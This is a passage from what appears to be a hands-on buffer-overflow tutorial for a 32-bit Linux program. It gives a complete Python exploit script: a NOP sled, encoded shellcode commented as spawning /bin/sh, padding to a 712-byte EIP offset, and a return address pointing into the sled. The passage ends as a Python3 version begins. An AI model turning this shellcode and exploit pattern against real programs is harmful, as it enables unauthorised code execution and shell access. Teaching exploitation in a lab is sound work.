     0xffffcb10
    0xffffcb20
    0xffffcb30

Im Going to Choose "0xffffca20", So Add Whatever Value to your python script in the EIP variable

REMEMBER

    Since This a x86 program make sure to reverse the address since x86 is little endian
    so "0xffffca20" Becomes "\x20\xca\xff\xff"

The Finished Script Should Look Like 

    ## EIP OFFSET = 712
    buf =  b""
    buf += b"\x89\xe0\xd9\xc6\xd9\x70\xf4\x5a\x4a\x4a\x4a\x4a"
    buf += b"\x4a\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43"
    buf += b"\x43\x37\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41"
    buf += b"\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42"  ### SHELL CODE TO RUN execve(/bin/sh)
    buf += b"\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x56"
    buf += b"\x51\x49\x59\x59\x67\x79\x71\x6e\x50\x56\x6b\x42"
    buf += b"\x48\x56\x4f\x44\x33\x75\x38\x35\x50\x51\x78\x34"
    buf += b"\x6f\x73\x52\x73\x59\x70\x6e\x4c\x49\x6a\x43\x4a"
    buf += b"\x6d\x6d\x50\x55\x61\x4b\x6b\x42\x4a\x45\x51\x32"
    buf += b"\x78\x48\x4d\x6b\x30\x41\x41"
    
    nop = "\x90" * 450 ### Can Be Any Number But i Just do about halfway to be safe
    padding = "\x41" * (712 - len(nop) - len(buf)) ## Calculate How Many A's We Need to reach the EIP
    eip = "\x20\xca\xff\xff" ### Address pointing to the NOP slide
    ## 0xffffca20
    
    ### Now Lets Print it for inputting into the program
    attack = nop + buf + padding + eip
    print(attack)

Now For the Moment Of Truth! Lets See If we succesfully injected shellcode and exploited this program

![last](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/797d5dd8-8f49-4934-aca4-86f15c9de253)

And it Worked!!! 


NOTE

    Im Using Python2 For using the exploit because python3 handles hex values differntly And it wont work
    So Below Is the code updated For Working On Python3

Python3 Code

    ## EIP OFFSET = 712
    
    import sys
    